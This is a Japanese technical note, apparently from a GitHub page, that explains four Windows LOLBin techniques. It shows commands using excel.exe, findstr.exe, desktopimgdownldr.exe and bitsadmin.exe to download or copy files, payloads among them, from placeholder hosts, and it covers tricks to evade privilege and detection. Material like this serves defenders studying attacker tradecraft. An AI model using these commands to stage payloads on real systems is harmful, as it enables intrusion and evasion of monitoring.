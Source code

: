 ### LOLBinの例1 - excel.exe

excel：Microsoft Excelを起動するコマンド

```cmd
excel.exe http://example.com/hoge.dll
```

一見、Excel上で読み取り専用でファイルが開くだけだが、
ローカルの所定のフォルダにキャッシュが保存される。

キャッシュ先のパスは特定できるため、  
ダウンロード後の実行や他パスへの移動が可能。

詳しい説明は下記を参照。
[Unsanitized file validation leads to Malicious payload download via Office binaries. | by Reegun J | Medium](https://medium.com/@reegun/unsanitized-file-validation-leads-to-malicious-payload-download-via-office-binaries-202d02db7191)

---

### LOLBinの例2 - findstr.exe

findstr：ファイル内を正規表現で検索するコマンド

```cmd
findstr /V /L hogehoge \\servername\file.exe > c:\work\work.exe
```
**/V**：指定した文字列を**含まない行**をすべて表示
**/L**：検索文字列をリテラルとして使用する

結果、検索条件を含む行が1つも存在しないため、  
元と同じ内容のファイルが任意のパスにコピーされる。

※ HTTPプロトコルでのダウンロードには対応していない。

---

### LOLBinの例3 - desktopimgdownldr.exe

desktopimgdownldr：壁紙をDLして所定のフォルダに置く
```cmd
set "SYSTEMROOT=C:\Windows\Temp" && 
cmd /c desktopimgdownldr.exe /lockscreenurl:http://example.com/file.exe 
/eventName:desktopimgdownldr
```

標準設定では、所定のフォルダは管理者権限でしかアクセスできないが、環境変数%systemroot%を書き換えることでユーザ権限でも実行できてしまう。

通信が当該exeでなく、svchostから発生するのもポイント。

日本語での詳しい解説は下記を参照。
[desktopimgdownldrを使ったLOLBin手法の検証](https://kataware.hatenablog.jp/entry/2020/07/05/132057)

---

### LOLBinの例4 - bitsadmin.exe
bitsadmin : ジョブの作成やダウンロード、進行状況の監視
```bat
bitsadmin /transfer NewJobX http://example.com/x c:\temp\x.exe
```
